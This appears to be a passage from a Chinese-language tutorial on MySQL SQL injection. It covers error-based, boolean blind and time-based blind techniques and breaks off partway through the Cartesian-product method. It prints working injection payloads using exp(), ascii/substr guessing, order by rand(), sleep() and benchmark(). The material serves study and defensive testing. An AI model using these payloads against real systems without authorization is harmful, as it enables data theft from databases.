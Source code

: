 ```sql

select * from test where id=1 and exp(~(select * from(select user())a));
```

## 布尔盲注

常见的布尔盲注场景有两种，一是返回值只有True或False的类型，二是Order by盲注。

**返回值只有True或False的类型**

如果查询结果不为空，则返回True（或者是Success之类的），否则返回False

这种注入比较简单，可以挨个猜测表名、字段名和字段值的字符，通过返回结果判断猜测是否正确

```
例：parameter=’ or ascii(substr((select database()) ,1,1))<115—+
```

**Orderby盲注**

order by rand(True)和order by rand(False)的结果排序是不同的，可以根据这个不同来进行盲注：

```
例：order by rand(database()='pdotest')
```

返回了True的排序，说明database()=’pdotest’是正确的值

## 时间盲注

其实大多数页面，即使存在sql注入也基本是不会有回显的，因此这时候就要用延时来判断查询的结果是否正确。

常见的时间盲注有：

**1.sleep(x)**

```sql
id=' or sleep(3)%23

id=' or if(ascii(substr(database(),1,1))>114,sleep(3),0)%23
```

查询结果正确，则延迟3秒，错误则无延时。

**2.benchmark()**

通过大量运算来模拟延时：

```sql
id=' or benchmark(10000000,sha(1))%23

id=' or if(ascii(substr(database(),1,1))>114,benchmark(10000000,sha(1)),0)%23
```

本地测试这个值大约可延时3秒：

**3.笛卡尔积**

计算笛卡尔积也是通过大量运算模拟延时：
